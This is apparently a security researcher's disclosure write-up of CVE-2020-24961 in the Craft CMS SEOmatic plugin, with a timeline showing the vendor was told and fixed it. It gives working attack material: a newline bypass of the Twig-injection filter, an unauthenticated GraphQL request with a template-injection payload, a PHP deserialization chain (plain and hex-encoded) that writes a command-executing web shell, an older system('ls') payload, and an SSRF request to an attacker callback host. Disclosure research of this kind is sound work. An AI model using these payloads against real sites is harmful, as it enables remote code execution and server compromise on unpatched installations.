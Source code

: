 # Multiple vulnerabilities at Craft CMS SEOmatic plugin


A couple of months ago I was performing retest of an interesting Server Side Request Forgery (SSRF) vulnerability at `debug` GET parameter. Developers disabled it on load balancer and I decided to perform some fuzzing with awesome Burp Suite plugin [param-miner](https://github.com/PortSwigger/param-miner). There was no way to exploit SSRF but interesting parameter `action` was discovered. Future investigation show that it is default behavior of [Craft CMS](https://craftcms.com/). Fast search by public CVE retured promising vulnerability CVE-2018-14716. You can find information about issue and way to exploit it at blog post [0xB455](http://ha.cker.info/exploitation-of-server-side-template-injection-with-craft-cms-plguin-seomatic/). When you will finish reading article return and we find way to bypass fix and execute code at vulnerable system.

<!--more-->

### Initial setup of vulnerable CMS
Before we start let's prepare our own library. Craft CMS Seomatic plugin version before 3.3.15 required to reproduce issues. Intallation guide can be found at official [documentation](https://craftcms.com/docs/3.x/installation.html) plugin can be found at [plugin store](https://plugins.craftcms.com/seomatic). Vulnerable application had Pro license and to test localy I made small fix at file
⁨craft⁩/vendor⁩/⁨craftcms⁩/⁨cms⁩/⁨src⁩/⁨controllers/GraphqlController.php:57

```php
 // Craft::$app->requireEdition(Craft::Pro);
```

### Security protection bypass
Now everything is ready to get started. Fix of CVE-2018-14716 is implemented at function sanitizeUrl(). It takes user supplied parameter url decode it and replace all strings with following rule `/{.*}/` to delete all Twig template special symbols. Vulnerable code:

```php

	public static function sanitizeUrl(string $url, bool $checkStatus = true): string
    {
        // Remove the query string
        $url = UrlHelper::stripQueryString($url);
        // HTML decode the entities, then strip out any tags
        $url = html_entity_decode($url, ENT_NOQUOTES, 'UTF-8');
        $url = urldecode($url);
        $url = strip_tags($url);

        // If this is a >= 400 status code, set the canonical URL to nothing
        if ($checkStatus && Craft::$app->getResponse()->statusCode >= 400) {
            $url = '';
        }
        // Remove any Twig tags that somehow are present in the incoming URL
        /** @noinspection CallableParameterUseCaseInTypeContextInspection */
        $result = preg_replace('/{.*}/', '', $url);
        // var_dump($result);
        if (!empty($result) && $result) {
            $url = $result;
        } else {
            $url = '';
        }

        return $url;
    }
```
Hopefully for attacker Regular Expressions (Perl-Compatible) have some funny behavior that will allows to bypass such protection. Let's take a look at [docs](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) 
```
s (PCRE_DOTALL) 
If this modifier is set, a dot metacharacter in the pattern matches all characters, including newlines. Without it, newlines are excluded.
```
Finally to bypass protection malicious user should split it template injection payload with new line symbols. Proof of Concept can be presented as `{{\n13*13\n}}`. 
Seomatic plugin API was disabled at target assets - it is another major obstacle to seccusefully inject Twig template. By default it should be available at endpoint `/actions/seomatic/meta-container/all-meta-containers?uri=` and if you are lucky you can skip next section. 
![Seomatic plugin API](/images/seomatic-config.png)

### Graphql
There is another way to exploit vulnerability - Graphql Controller. By default graphql query available at `/actions/graphql/api`. Seomatic plugin register its seomatic query by default. We can get access to Secret information with unauthorization request to graphql api with `uri` value `{{\n1337*13\n}}`.

```html
POST /index.php?p=admin/actions/graphql/api HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
X-Requested-With: XMLHttpRequest
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

query=query{seomatic(uri:"{{\n1337*13\n}}"){metaTitleContainer,metaTagContainer}}

```
![Seomatic SSTI](/images/seomatic-ssti-1337.png)

### Remote code execution by unserialize
The old Remote Code Execution exploit available at internet looks like `{{craft.app.view.evaluateDynamicContent('print(system("ls"))')}}` but unfortunately for us it was disabled at version 3.5.0. At first I was trying to get RCE chain by unserialize function at `craft.app.getQueue().unserializeMessage()`. The only working chain at Craft CMS environment is *Guzzle/FW1* but it has some limitations that should be addressed first. Serialized object contains `{}` chars. We should modify string to exclude them from payload. As you may know PHP support `\\x00` encoding. I modified **phpggc** tool to print out exploit in new encoding. So it looks like:

```bash
./phpggc Guzzle/FW1 /tmp/exploit.txt data -s    
O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:41:"%00GuzzleHttp\Cookie\FileCookieJar%00filename"%3Bs:16:"/tmp/exploit.txt"%3Bs:52:"%00GuzzleHttp\Cookie\FileCookieJar%00storeSessionCookies"%3Bb:1%3Bs:36:"%00GuzzleHttp\Cookie\CookieJar%00cookies"%3Ba:1:{i:0%3BO:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"%00GuzzleHttp\Cookie\SetCookie%00data"%3Ba:3:{s:7:"Expires"%3Bi:1%3Bs:7:"Discard"%3Bb:0%3Bs:5:"Value"%3Bs:80:"<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd'])%3B system($cmd)%3B }?>%0A"%3B}}}s:39:"%00GuzzleHttp\Cookie\CookieJar%00strictMode"%3BN%3B}

\\x4f\\x3a\\x33\\x31\\x3a\\x22\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x22\\x3a\\x34\\x3a\\x7b\\x73\\x3a\\x34\\x31\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x66\\x69\\x6c\\x65\\x6e\\x61\\x6d\\x65\\x22\\x3b\\x73\\x3a\\x31\\x36\\x3a\\x22\\x2f\\x74\\x6d\\x70\\x2f\\x65\\x78\\x70\\x6c\\x6f\\x69\\x74\\x2e\\x74\\x78\\x74\\x22\\x3b\\x73\\x3a\\x35\\x32\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x73\\x74\\x6f\\x72\\x65\\x53\\x65\\x73\\x73\\x69\\x6f\\x6e\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x73\\x22\\x3b\\x62\\x3a\\x31\\x3b\\x73\\x3a\\x33\\x36\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x63\\x6f\\x6f\\x6b\\x69\\x65\\x73\\x22\\x3b\\x61\\x3a\\x31\\x3a\\x7b\\x69\\x3a\\x30\\x3b\\x4f\\x3a\\x32\\x37\\x3a\\x22\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x53\\x65\\x74\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x22\\x3a\\x31\\x3a\\x7b\\x73\\x3a\\x33\\x33\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x53\\x65\\x74\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x00\\x64\\x61\\x74\\x61\\x22\\x3b\\x61\\x3a\\x33\\x3a\\x7b\\x73\\x3a\\x37\\x3a\\x22\\x45\\x78\\x70\\x69\\x72\\x65\\x73\\x22\\x3b\\x69\\x3a\\x31\\x3b\\x73\\x3a\\x37\\x3a\\x22\\x44\\x69\\x73\\x63\\x61\\x72\\x64\\x22\\x3b\\x62\\x3a\\x30\\x3b\\x73\\x3a\\x35\\x3a\\x22\\x56\\x61\\x6c\\x75\\x65\\x22\\x3b\\x73\\x3a\\x38\\x30\\x3a\\x22\\x3c\\x3f\\x70\\x68\\x70\\x20\\x69\\x66\\x28\\x69\\x73\\x73\\x65\\x74\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6d\\x64\\x27\\x5d\\x29\\x29\\x7b\\x20\\x24\\x63\\x6d\\x64\\x20\\x3d\\x20\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6d\\x64\\x27\\x5d\\x29\\x3b\\x20\\x73\\x79\\x73\\x74\\x65\\x6d\\x28\\x24\\x63\\x6d\\x64\\x29\\x3b\\x20\\x7d\\x3f\\x3e\\x0a\\x22\\x3b\\x7d\\x7d\\x7d\\x73\\x3a\\x33\\x39\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x73\\x74\\x72\\x69\\x63\\x74\\x4d\\x6f\\x64\\x65\\x22\\x3b\\x4e\\x3b\\x7d
```
![Seomatic SSTI](/images/seomatic-ssti-unserialize.png)

Seccusesfully exploitation of vulnerability will creates `exploit.txt ` at `/tmp/` folder.

```bash
doge in ~/phpggc on master ● ● λ cat /tmp/exploit.txt 
[{"Expires":1,"Discard":false,"Value":"<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>\n"}]%                                    
doge in ~/IdeaProjects/GIT/phpggc on master ● ● λ cat data  
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>
doge in ~/phpggc on master ● ● λ 

```

# Remote code execution 
A few days later I found better way to exploit this vulnerability. As I mentioned earlier method `evaluateDynamicContent` was disabled at Craft CMS but it was not at **Yii::Base::View**. As you may already know Twig template engine support variables by `%` declaration. We can use them to create new **Yii::Base::View** object and call `evaluateDynamicContent` method directly and bypass protection mechanism. Final exploit will looks like.

![Seomatic RCE](/images/seomatic-rce.png)

# Bonus. Server Side Request Forgery

Unauthorized Server Side Request Forgery at Craft CMS Seomatic plugin version before 3.3.15

### Details about vulnerability 
Controller FileController allows anonymous access by default. Function looks like:
```php
        $url = base64_decode($url);
        $robots = base64_decode($robots);
        $canonical = base64_decode($canonical);
        $url = UrlHelper::absoluteUrlWithProtocol($url);
        $contents = file_get_contents($url);
        $response = Craft::$app->getResponse();
```
Url parameter is base64 encoded malicious user host `http://3eif8shsnxsuvuyupt9o4bfwnntdh2.burpcollaborator.net/` is `aHR0cDovLzNlaWY4c2hzbnhzdXZ1eXVwdDlvNGJmd25udGRoMi5idXJwY29sbGFib3JhdG9yLm5ldC8=`

### Step to reproduce

```html
GET /index.php?action=seomatic/file/seo-file-link&url=aHR0cDovLzNlaWY4c2hzbnhzdXZ1eXVwdDlvNGJmd25udGRoMi5idXJwY29sbGFib3JhdG9yLm5ldC8= HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
![Seomatic SSRF](/images/seomatic-ssrf.png)
![Seomatic SSRF](/images/seomatic-ssrf-callback.png)

# Timeline

1. 13 Aug 2020 Vulnerabilities were discovered
2. 14 Aug 2020 Nystudio107 was informed about the vulnerabilities
3. 17 Aug 2020 fix released
4. 17 Nov 2020 CVE-2020-24961 assigned
5. 18 Nov 2020  Public disclosure
